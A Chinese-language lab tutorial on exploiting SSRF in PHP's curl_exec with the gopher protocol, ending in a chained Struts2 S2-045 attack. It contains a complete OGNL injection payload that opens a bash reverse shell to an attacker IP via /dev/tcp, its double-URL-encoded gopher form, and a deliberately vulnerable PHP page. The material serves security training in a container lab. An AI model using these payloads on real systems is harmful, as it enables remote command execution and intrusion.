curl_exec()函数是 PHP 中一个用于执行 cURL 会话的函数，可以用于发送 HTTP 请求并获取响应。它允许 PHP 脚本像一个网络客户端一样与远程服务器进行交互，例如发送和接收数据。

以下是curl_exec()函数的语法：

```php
mixed curl_exec(resource $curl)
```

参数说明：

```php
$curl ：cURL 句柄，使用 curl_init() 创建。
```

示例：

```php
// 初始化 cURL 句柄
$curl = curl_init();
// 设置 cURL 选项
curl_setopt($curl, CURLOPT_URL, 'http://www.baidu.com/');
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
// 执行 cURL 会话
$response = curl_exec($curl);
// 关闭 cURL 句柄
curl_close($curl);
// 输出响应
echo $response;
```



在这个例子中，curl_exec()函数使用cURL句柄$curl执行HTTP GET请求，并返回服务器的响应。使用curl_setopt()函数设置cURL选项，例如请求的URL和返回数据的格式。最后，使用curl_close()函数关闭cURL句柄，并将响应输出到屏幕上。

#### 2.2.2 相关协议

##### 2.2.2.1 Gopher

Gopher在HTTP协议前是非常有名的信息查找系统，但是很老了，很少服务会用到它

但是，在SSRF漏洞中，它大方光彩，让SSRF漏洞利用更加广泛，利用此协议可以对ftp，memchahe，mysql，telnet，redis，等服务进行攻击，并可以构造发送GET，POST请求包。

也就是里哟过Gopher协议可以通过SSRF漏洞，**让服务器发送自己精心构造的GET或者POST请求包**。

```plain
gopher://<host>:<port>/<gopher-path>_后面接TCP数据流 
```

**利用要点**

- PHP版本大于等于5.3
- PHP.ini开启了php_curl
- gopher没有默认端口，需要指定:gopher://127.0.0.1:80
- 在传送GET或POST数据时需要经过二次URl编码
- url编码时回车换行需要使用%0d%0a替换%0a
- POST中的&也需要url编码。

**利用方式**

使用Gopher协议发送一个请求，环境为：nc起一个监听，curl发送gopher请求

nc启动监听，监听2333端口：nc -lp 2333

使用curl发送http请求，命令为

```plain
curl gopher://192.168.173.129:2333/abcd
```

此时nc收到的消息为：

```plain
┌──(kali㉿kali)-[~]
└─$ nc -lp 2333
bcd
```

可以发现url中的a没有被nc接受到，如果命令变为

```plain
curl gopher://192.168.173.129:2333/_abcd
```

此时nc收到的消息为：

```plain
┌──(kali㉿kali)-[~]
└─$ nc -lp 2333
abcd
```

所以需要在使用gopher协议时在url后加入一个字符（该字符可随意写）

在gopher协议中发送HTTP的数据，需要以下三步：

1. 构造HTTP数据包
2. URL编码、替换回车换行为%0d%0a
3. 发送gopher协议



准备一个php代码

```php
<?php
   echo "<h1>Hello " . $_REQUEST['name'] . "</h1><br>";
?>
```

一个GET型的HTTP包，如下：

```plain
GET /test.php?name=eagle HTTP/1.1
Host: 10.1.0.30:8000
```

URL编码后为：

```plain
curl gopher://10.1.0.30:8000/_GET%20/test.php%3fname=eagle%20HTTP/1.1%0d%0aHost:%2010.1.0.30:8000%0d%0A
```



需要注意

1. 问号（？）需要转码为URL编码，也就是%3f
2. 回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
3. 在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

**发送请求HTTP POST请求：**

POST数据包的格式

```plain
POST /test.php HTTP/1.1
Host: 10.1.0.30:8000

name=eagle
```

将上面的POST数据包进行URL编码并改为gopher协议

```plain
curl gopher://10.1.0.30:8000/_POST%20/test.php%20HTTP/1.1%0d%0aHost:%2010.1.0.30:8000%0d%0a%0d%0aname=eagle%0d%0a
```



查看报错日志

```plain
2023/05/09 11:09:54 [error] 61#0: *57 FastCGI sent in stderr: "PHP message: PHP Notice:  Undefined index: name in /www/test.php on line 2" while reading response header from upstream, client: 10.3.0.88, server: www.test.com, request: "POST /test.php HTTP/1.1", upstream: "fastcgi://127.0.0.1:9000", host: "10.1.0.30:8000"
2023/05/09 11:09:54 [crit] 61#0: *57 open() "/www/z_10.1.0.30.log" failed (13: Permission denied) while logging request, client: 10.3.0.88, server: www.test.com, request: "POST /test.php HTTP/1.1", upstream: "fastcgi://127.0.0.1:9000", host: "10.1.0.30:8000"
2023/05/09 11:09:54 [crit] 61#0: *57 open() "/www/z_www.test.com.log" failed (13: Permission denied) while logging request, client: 10.3.0.88, server: www.test.com, request: "name=eagle"
```

这里有个疑问：为什么发起了2次请求？为什么会把参数name=eagle当作一个请求？发现问题出现在POST请求头中，考虑哪些参数是POST请求必须的，经过排查，发现有4个参数为必要参数

```plain
POST /test.php HTTP/1.1
Host: 10.1.0.30:8000
Content-Type:application/x-www-form-urlencoded
Content-Length:10

name=eagle
```

进行URL编码：

```plain
curl gopher://10.1.0.30:8000/_POST%20/test.php%20HTTP/1.1%0d%0aHost:%2010.1.0.30:8000%0d%0aContent-Type:application/x-www-form-urlencoded%0d%0aContent-Length:10%0d%0a%0d%0aname=eagle%0d%0a
```

发现请求正常



**反弹shell**

Struts2框架是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。Struts2以WebWork优秀的设计思想为核心，吸收了Struts框架的部分优点，提供了一个更加整洁的MVC设计模式实现的Web应用程序框架 (摘自百度百科)

靶场地址

https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md

今天我们用到的漏洞是Struts2-045漏洞，以下为S2-045漏洞反弹shell的利用代码，我们在本地机器上执行：nc -lp 2333

```plain
GET / HTTP/1.1
Host: 192.168.173.88:8080
Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.173.129/2333 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

此处需要如下操作，推荐在线编码小工具：https://iproute.cn/html/encoder/





编码之后

```plain
curl gopher://192.168.173.88:8080/_GET%20/%20HTTP/1.1%0d%0aHost:192.168.173.88:8080%0d%0aContent-Type:%25%7b%28%23%5f%3d%27%6d%75%6c%74%69%70%61%72%74%2f%66%6f%72%6d%2d%64%61%74%61%27%29%2e%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3f%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3d%23%64%6d%29%3a%28%28%23%63%6f%6e%74%61%69%6e%65%72%3d%23%63%6f%6e%74%65%78%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%3d%23%63%6f%6e%74%61%69%6e%65%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%6f%6e%74%65%78%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%29%29%2e%28%23%63%6d%64%3d%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%37%33%2e%31%32%39%2f%32%33%33%33%20%30%3e%26%31%27%29%2e%28%23%69%73%77%69%6e%3d%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%53%79%73%74%65%6d%40%67%65%74%50%72%6f%70%65%72%74%79%28%27%6f%73%2e%6e%61%6d%65%27%29%2e%74%6f%4c%6f%77%65%72%43%61%73%65%28%29%2e%63%6f%6e%74%61%69%6e%73%28%27%77%69%6e%27%29%29%29%2e%28%23%63%6d%64%73%3d%28%23%69%73%77%69%6e%3f%7b%27%63%6d%64%2e%65%78%65%27%2c%27%2f%63%27%2c%23%63%6d%64%7d%3a%7b%27%2f%62%69%6e%2f%62%61%73%68%27%2c%27%2d%63%27%2c%23%63%6d%64%7d%29%29%2e%28%23%70%3d%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%23%63%6d%64%73%29%29%2e%28%23%70%2e%72%65%64%69%72%65%63%74%45%72%72%6f%72%53%74%72%65%61%6d%28%74%72%75%65%29%29%2e%28%23%70%72%6f%63%65%73%73%3d%23%70%2e%73%74%61%72%74%28%29%29%2e%28%23%72%6f%73%3d%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%73%74%72%75%74%73%32%2e%53%65%72%76%6c%65%74%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%40%67%65%74%52%65%73%70%6f%6e%73%65%28%29%2e%67%65%74%4f%75%74%70%75%74%53%74%72%65%61%6d%28%29%29%29%2e%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%63%6f%70%79%28%23%70%72%6f%63%65%73%73%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%72%6f%73%29%29%2e%28%23%72%6f%73%2e%66%6c%75%73%68%28%29%29%7d%0d%0a
```

一定要注意最后加上%0d%0a，以及很多URL编码工具将会回车换行转码为%0a，一定要自己替换为%0d%0a

发送请求后可以反弹shell



**在SSRF中使用gopher协议反弹shell**

环境如下

本次使用的是两个容器作为ssrf主机和s2-045漏洞主机

```plain
[root@localhost ~]# docker run -d -p 80:80 -v /root/lnmp/www:/app/public --name=lnmp registry.cn-hangzhou.aliyuncs.com/eagleslab/service:lnmp56
[root@localhost ~]# docker run -d --name struts2 vulhub/struts2:2.3.30  # 这个容器如果无法下载，可以使用靶场里面的struts2，具体操作见下行
# 如果已经使用eagle-sec.sh启动过这个struts2容器了，可以输入这条命令 docker run -d --name struts2 struts2
```



IP地址说明

| 设备简称    | IP地址          | 说明                                                         |
| ----------- | --------------- | ------------------------------------------------------------ |
| kali虚拟机  | 192.168.173.129 | 发起gopher攻击和nc监听的kali虚拟机                           |
| lnmp主机    | 192.168.173.88  | 存在ssrf漏洞的机器，上面运行着一个lnmp，里面跑着下面提到的php代码 |
| struts2容器 | 172.17.0.2      | struts2容器，因为存在一个get提交命令执行的漏洞，所以被拿过来作为ssrf最终攻击的目标 |

准备一个带有SSRF漏洞的页面，在`lnmp主机`上执行的代码如下

```php
cat << 'EOT' > /root/lnmp/www/index.php
<?php
    $url = $_GET['url'];
    $curlobj = curl_init($url);
    echo curl_exec($curlobj);
    echo $url;
?>
EOT
```

这里需要注意的是，你的PHP版本必须大于等于5.3，并且在PHP.ini文件中开启了extension=php_curl.dll

我在攻击机器上开启了一个监听nc -lp 2333

然后在攻击的`kali虚拟机`中访问

```plain
curl http://192.168.173.88/?url=gopher://192.168.173.129:2333/_abc
```

可以看到nc接收到了消息，没有问题。

```plain
┌──(kali㉿kali)-[~]
└─$ nc -lp 2333
abc
```

此处我们先梳理一下代码，先创建如下代码的正常容器用于ssrf的测试和原理验证，

```bash
# 由于struts2容器是跑在lnmp主机上的，所以命令在lnmp主机上输入
docker run -d -v /root/lnmp/www1:/app/public -p 8080:80 --name=lnmptest registry.cn-hangzhou.aliyuncs.com/eagleslab/service:lnmp56
cat << 'EOT' > /root/lnmp/www1/index.php
<?php
   echo "<h1>Hello " . $_REQUEST['name'] . "</h1><br>";
?>
EOT

# 查看lnmptest容器的ip地址
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' lnmptest
```

这里使用上面已经用过的gopher协议就可以触发`hello eagle`了

```plain
curl gopher://192.168.173.88:8080/_GET%20/%3fname=eagle%20HTTP/1.1%0d%0aHost:%20192.168.173.88:8080%0d%0A
```

如果使用ssrf来触发，url改成这样，注意，docker容器之间访问是无视映射的，比如`docker run -p 8080:80 ...`这样的命令，在容器之间访问的之后是不管8080端口的，还是访问的原来的端口号，所以下面改成`172.16.0.2:80`

```plain
http://192.168.173.88/?url=gopher://172.17.0.2:80/_GET%20/%3fname=eagle%20HTTP/1.1%0d%0aHost:%20172.17.0.2:80%0d%0A
```

测试结果如下



发现并没有出现get页面的hello eagle，说明请求失败，发现是因为在PHP在接收到参数后会做一次URL的解码，正如我们上图所看到的，%20等字符已经被转码为空格。



所以，curl_exec在发起gopher时用的就是没有进行URL编码的值，就导致了现在的情况，所以我们要进行二次URL编码。编码结果如下：

```plain
http://192.168.173.88/?url=gopher%3A%2F%2F172.17.0.2%3A80%2F_GET%2520%2F%253fname%3Deagle%2520HTTP%2F1.1%250d%250aHost%3A%2520172.17.0.2%3A80%250d%250A
```

此时发起请求，得到如下结果(如果遇访问缓慢，耐心等待)：



使用SSRF漏洞配合gopher协议来获取shell

下面利用struts2容器的漏洞(假设172.17.0.2是struts2容器的ip地址)，并且打开nc监听

```plain
# 查看struts2容器IP地址的命令是docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' struts2
# 在payload中还有nc的地址别忘记修改
GET / HTTP/1.1
Host: 172.17.0.2:8080
Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.173.129/2333 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

前面添加的内容如下，注意修改IP地址符合你的实验环境

```plain
http://192.168.173.88/?url=gopher://172.17.0.2:8080/_GET%2520/%2520HTTP/1.1%250D%250AHost:172.17.0.2:8080%250D%250AContent-Type:
# 后面加上上述payload的二次url编码，第一次url编码的时候结尾还要加上%0d%0a，第二次不用
```

